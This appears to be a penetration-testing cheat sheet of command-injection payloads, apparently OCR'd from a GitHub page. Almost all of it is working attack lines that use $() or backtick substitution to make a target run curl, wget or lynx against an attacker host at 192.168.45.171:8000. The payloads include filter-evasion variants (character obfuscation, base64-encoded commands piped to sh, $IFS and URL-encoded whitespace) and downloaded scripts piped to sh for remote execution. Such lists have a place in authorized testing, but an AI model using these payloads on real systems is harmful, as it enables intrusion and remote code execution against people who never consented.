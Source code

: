 ###### Payloads for Common Protections
###### Basic Variants
```bash
$(wget http://192.168.45.171:8000/test.txt)
$(curl -X GET http://192.168.45.171:8000/test.txt)
$(lynx -source http://192.168.45.171:8000/test.txt)
```
###### Obfuscated Variants
```bash
$(`cu\rl` http://192.168.45.171:8000/test.txt)
$(cu$'r'l http://192.168.45.171:8000/test.txt)
$(echo curl | sh -s http://192.168.45.171:8000/test.txt)
```
###### Encoded/Decoded Variants
```bash
$(curl http://192.168.45.171:8000/test.txt | base64)
$(base64 -d <<< Y3VybCBodHRwOi8vMTkyLjE2OC40NS4xNzE6ODAwMC90ZXN0LnR4dA== | sh)
```
###### Command Substitution Alternatives
```bash
`curl http://192.168.45.171:8000/test.txt`
$(eval curl http://192.168.45.171:8000/test.txt)
```
###### Using Other Utilities
```bash
$(python -c 'import os; os.system("curl http://192.168.45.171:8000/test.txt")')
$(perl -e 'system("curl http://192.168.45.171:8000/test.txt")')
$(php -r 'file_get_contents("http://192.168.45.171:8000/test.txt");')
```
###### RCE Advanced Techniques
###### Whitespace Evasion
```bash
$(curl${IFS}http://192.168.45.171:8000/test.txt)
$(curl$IFS"http://192.168.45.171:8000/test.txt")
```
###### URL Encoding
```bash
$(curl%20http://192.168.45.171:8000/test.txt)
$(curl%09http://192.168.45.171:8000/test.txt)
```
###### Chained Commands
```bash
$(curl http://192.168.45.171:8000/test.txt; echo Done)
$(curl http://192.168.45.171:8000/test.txt && touch /tmp/test)
```
###### Reverse Shell Payloads
```bash
$(curl http://192.168.45.171:8000/test.sh | sh)
$(wget http://192.168.45.171:8000/test.sh -O- | sh)
```
###### Testing Against Filters
###### Custom Headers
```bash
curl -H "X-Test: payload" http://192.168.45.171:8000/test.txt
```
###### Dynamic Execution
```bash
$(eval $(echo curl) http://192.168.45.171:8000/test.txt)
```
